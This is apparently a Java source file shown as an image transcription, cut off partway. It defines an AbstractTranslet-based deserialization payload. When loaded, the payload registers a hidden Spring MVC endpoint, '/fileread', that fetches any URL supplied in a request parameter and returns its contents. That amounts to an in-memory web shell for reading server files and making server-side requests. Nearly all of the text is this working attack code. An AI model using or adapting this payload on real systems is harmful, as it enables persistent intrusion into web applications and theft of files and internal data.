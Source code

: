 ```java
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.net.URL;

public class FileRead extends AbstractTranslet {

    public FileRead() {

        try {

            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            RequestMappingInfo.BuilderConfiguration config =
                    (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            Method method2 = FileRead.class.getMethod("test");
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            RequestMappingInfo info = RequestMappingInfo.paths("/fileread")
                    .options(config)
                    .build();
            FileRead fileRead = new FileRead("aaa");
            mappingHandlerMapping.registerMapping(info, fileRead, method2);
        } catch (Exception e) {

        }
    }
    public FileRead(String aaa) {

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public void test() throws IOException {

        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        PrintWriter writer = response.getWriter();
     //exec
        try {
        String urlContent = "";
        final URL url = new URL(request.getParameter("read"));
        final BufferedReader in = new BufferedReader(new
                InputStreamReader(url.openStream()));
        String inputLine = "";
        while ((inputLine = in.readLine()) != null) {
            urlContent = urlContent + inputLine + "\n";
        }
        in.close();
            writer.write(urlContent);
            writer.flush();
```